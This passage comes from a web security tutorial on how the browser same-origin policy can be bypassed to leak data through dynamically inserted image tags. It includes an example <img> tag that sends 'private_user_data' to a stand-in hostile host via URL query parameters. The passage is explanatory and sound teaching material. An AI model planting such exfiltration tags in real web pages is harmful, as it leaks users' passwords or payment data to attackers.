 One thing that JavaScript code is trusted to do is load more content. For example, you might
build a basic image gallery application by writing some JavaScript code that inserts and deletes
`<img>` tags into the current page. When you insert an `<img>` tag, the browser
immediately loads the image as if it had been present in the original page; if you delete (or
hide) an `<img>` tag, the browser removes it from the display.

Essentially, the SOP lets JavaScript code do anything that the original HTML page could have done &mdash; it just prevents that JavaScript from sending data to a different server, or from reading or writing data belonging to a different server.

### Leaking Data <a id="leaking"></a>

The text above said, "prevents JavaScript from sending data to a different server." Unfortunately, that's not strictly true. In fact it is possible to send data to a different server, although it might be more accurate to say "leak."

JavaScript is free to add new resources &mdash; such as `<img>` tags &mdash; to the current page. You
probably know that you can cause an image hosted on foo.com to appear inline in a page served up by bar.com. Indeed, some people get upset if you do this to their images, since it uses their bandwidth to serve an image to your web visitor. But, it's a feature of HTML, and since HTML can do it, so can JavaScript.

Normally you would view this as a read-only operation: the browser requests an image, and the server sends the data. The browser didn't upload anything, so no data can be lost, right? Almost, but not quite. The browser _did_ upload something: namely, the URL of the image. Images use standard URLs, and any URL can have query parameters encoded in it. A legitimate use case for this might be a page hit counter image, where a CGI on the server selects an appropriate image based on a query parameter and streams the data to the user in response. Here is a reasonable (though hypothetical) URL that could return a hit-count image showing the number '42':

```text
http://site.domain.tld/pagehits?count=42
```

In the static HTML world, this is perfectly reasonable. After all, the server is not going to
send the client to a web site that will leak the server's or user's data &mdash; at least, not on
purpose. Because this technique is legal in HTML, it's also legal in JavaScript, but there is an
unintended consequence. If some evil JavaScript code gets injected into a good web page, it can
construct `<img>` tags and add them to the page.

It is then free to construct a URL to any hostile domain, stick it in an `<img>` tag, and
make the request. It's not hard to imagine a scenario where the evil code steals some useful
information and encodes it in the `<img>` URL; an example might be a tag such as:

```html
<img src="http://evil.domain.tld/pagehits?private_user_data=12345"/>
```

If `private_user_data` is a password, credit card number, or something similar, there'd be a major problem. If the evil code sets the size of the image to 1 pixel by 1 pixel, it's very unlikely the user will even notice it.

### Cross-Site Scripting <a id="cross-site"></a>
